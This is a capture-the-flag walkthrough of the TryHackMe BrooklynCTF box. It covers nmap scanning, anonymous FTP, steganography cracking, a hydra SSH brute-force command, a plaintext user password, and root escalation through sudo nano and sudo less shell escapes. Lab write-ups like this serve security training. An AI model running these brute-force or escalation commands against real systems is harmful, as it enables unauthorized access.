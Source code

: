 # TryHackMe-BrooklynCTF

BrooklynCTF is a beginner level anyone can try to hack this box. There are two main intended ways to root the box.

## NMAP
```
nmap -sC -sV 10.10.182.198
```

```
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-25 21:16 EDT
Stats: 0:00:15 elapsed; 0 hosts completed (1 up), 1 undergoing SYN Stealth Scan
SYN Stealth Scan Timing: About 99.99% done; ETC: 21:16 (0:00:00 remaining)
Nmap scan report for 10.10.182.198
Host is up (0.16s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0             119 May 17 23:17 note_to_jake.txt
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:10.8.94.60
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 16:7f:2f:fe:0f:ba:98:77:7d:6d:3e:b6:25:72:c6:a3 (RSA)
|   256 2e:3b:61:59:4b:c4:29:b5:e8:58:39:6f:6f:e9:9b:ee (ECDSA)
|_  256 ab:16:2e:79:20:3c:9b:0a:01:9c:8c:44:26:01:58:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 32.96 seconds

```
There are 3 ports open on this box.Lets first visit the webpage.

## PORT 80

<a href="https://imgur.com/gXJz19O"><img src="https://i.imgur.com/gXJz19O.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/HmjZ1iK"><img src="https://i.imgur.com/HmjZ1iK.png" title="source: imgur.com" /></a>

When we look at the source of this page it says something about steganography so that image has something hidden with it.

## PORT 21

<a href="https://imgur.com/sNTPWsN"><img src="https://i.imgur.com/sNTPWsN.png" title="source: imgur.com" /></a>

Since ftp is open we can connect to using the username "anonymous" with no password to be provided and we can download a file named "note_to_jake".

<a href="https://imgur.com/wwNH0TH"><img src="https://i.imgur.com/wwNH0TH.png" title="source: imgur.com" /></a>

So we know that there is a user named "jake".

## Steganography

We saw a hidden message towards steganography so now lets try to extract data from image.

<a href="https://imgur.com/qspdhaP"><img src="https://i.imgur.com/qspdhaP.png" title="source: imgur.com" /></a>

If we try to extract data from image it's going to ask for a password so we have to crack it using "stegcracker" which can be installed from here
https://github.com/Paradoxis/StegCracker.

<a href="https://imgur.com/ShNAWPL"><img src="https://i.imgur.com/ShNAWPL.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/ShNAWPL"><img src="https://i.imgur.com/ShNAWPL.png" title="source: imgur.com" /></a>

## PORT 22

As we have found that there are two users "jake" and "holt" in order to find out jake's password we can bruteforce ssh using hydra

```
hydra -l jake -P /usr/share/wordlists/rockyou.txt -t 16 10.10.182.198 ssh

```

<a href="https://imgur.com/p3YTZ48"><img src="https://i.imgur.com/p3YTZ48.png" title="source: imgur.com" /></a>

For simplicity lets make a variable for the box's IP

```
export IP=10.10.182.198
```
<a href="https://imgur.com/NNPCW29"><img src="https://i.imgur.com/NNPCW29.png" title="source: imgur.com" /></a>

<a href="https://imgur.com/OSQMIBE"><img src="https://i.imgur.com/OSQMIBE.png" title="source: imgur.com" /></a>

We can now use "less" command in order to view files.


## Privilege Escalation (Holt)

In order to completely own the box through Holt we have sudo rights for "nano".

The password that we got from extracting information from the image can be utilized here


Login as "holt" from ssh using  password "fluffydog12@ninenine".

<a href="https://imgur.com/NNPCW29"><img src="https://i.imgur.com/NNPCW29.png" title="source: imgur.com" /></a>

```
holt@brookly_nine_nine:~$ sudo -l
Matching Defaults entries for holt on brookly_nine_nine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User holt may run the following commands on brookly_nine_nine:
    (ALL) NOPASSWD: /bin/nano
holt@brookly_nine_nine:~$

```
Visit GTFOBIN for escalating privileges

```
sudo nano
```
```
^R^X
```
```
reset; sh 1>&0 2>&0
```
<a href="https://imgur.com/tHylRoZ"><img src="https://i.imgur.com/tHylRoZ.png" title="source: imgur.com" /></a>

As soon as you'll hit enter you will be "root".

<a href="https://imgur.com/0K4C4zl"><img src="https://i.imgur.com/0K4C4zl.png" title="source: imgur.com" /></a>


## Privilege Escalation (Jake)

Login as jake through ssh after you got his credentials through bruteforce or you can switch between usesr.

```
su - jake
password:
```

<a href="https://imgur.com/OSQMIBE"><img src="https://i.imgur.com/OSQMIBE.png" title="source: imgur.com" /></a>

```
sudo less /etc/profile
```
```
!/bin/sh
```
<a href="https://imgur.com/1Fkjhyn"><img src="https://i.imgur.com/1Fkjhyn.png" title="source: imgur.com" /></a>
